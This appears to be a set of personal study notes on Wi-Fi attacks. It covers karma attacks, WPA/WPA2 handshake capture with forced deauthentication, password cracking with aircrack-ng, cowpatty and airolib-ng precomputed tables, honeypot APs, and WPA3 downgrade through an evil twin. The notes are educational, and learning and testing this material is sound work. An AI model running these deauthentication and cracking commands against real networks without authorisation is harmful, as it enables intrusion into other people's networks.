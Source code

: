 
- karma attack: the fake AP listens to probes sent by clients when they search for known APs and responds, telling them that he is the AP they are looking for


### WPA/WPA2 cracking
WPA-> TKIP (based on WEP). WPA only required firmware update, for that reason it was accepted quickly
WPA2 -> CCMP (based on AES). WPA2 needs new hardware to compute AES faster

```bash
# Run the following and wait for a handshake by a new client connecting to the network
sudo airodump-ng --bssid <AP bssid> --channel <channel> --write <cap file> wlan0mon

# We can also deauthenticate a client to force him to reconnect (we should see in the top right corner of the airodump-ng output tha ta handshake has been captured. I have problems with this in a VM, but not on a baremetal linux)
sudo aireplay-ng --deauth 4 -a <AP bssid> -c <client MAC> wlan0mon

# Crack the capture file
aircrack-ng <file.cap> -w <wordlist.txt>
```

Cracking is time consuming because of the computation of the PBKDF2 function (4096 iterations for AES). A rainbow table can be precomputed:

``genpmk -f <wordlist> -d precomputed-common -s home``
And we can crack with a rainbow table attack:
``cowpatty -d <precomputed wordlist> -s <ESSID> -r <capture file.cap>``


```bash
# Create the <output db> database 
airolib-ng <output db> --import passwd <wordlist>

# save to a file the ESSID that we want to crack
echo "<essid>" > <essid file>

# Import the ESSID in the DB
airolib-ng <output db> --import essid <essid file>

# Create a PMK for every password in the list
airolib-ng <output db> --batch

# Crack
aircrack-ng -r <output db> <file.cap>
```

### AP-less networks
If we see a client probing for a network but the network is not there, probably it's using WPA/WPA2, we can create a honeypot with that network name and capture traffic with airodump, so that when he tries to connect to us we capture a handshake that we can try to crack


### WPA3
It is not possible to crack WPA3. But we can try downgrade clients to WPA2 to capture a crackable handshake. This can be done with an evil twin with only WPA2 and 802.11w set to "optional".
